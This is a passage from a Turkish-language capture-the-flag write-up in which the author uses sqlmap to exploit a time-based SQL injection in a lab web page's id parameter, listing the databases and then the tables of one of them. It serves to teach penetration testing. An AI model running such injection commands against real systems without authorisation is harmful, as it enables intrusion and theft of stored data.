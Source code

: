 ![Picture](/DEFENCESPACECTF-17/Pics/22.png "Picture")
Bana arka planda kullanılan database'in MySql olduğunu versiyon bilgisini zafiyet olup olmadığını hatta bilgisayarda kullanılan işletim sistemi bilgilerini bile getiriyor. Şimdi database'i çekebilmek için aşağıdaki komutu veriyorum.
```
    $ sqlmap -u http://192.168.56.20/Unit990/pages/clientView.php?id=13 --dbs
```
![Picture](/DEFENCESPACECTF-17/Pics/23.png "Picture")
Şimdi sayfada bulduğu time-based sql açığını kullanarak uygun database'lerin listesini getirdi. Şimdi daha içeri giriyorum.
```
    $ sqlmap -u http://192.168.56.20/Unit990/pages/clientView.php?id=13 -D silex --tables
```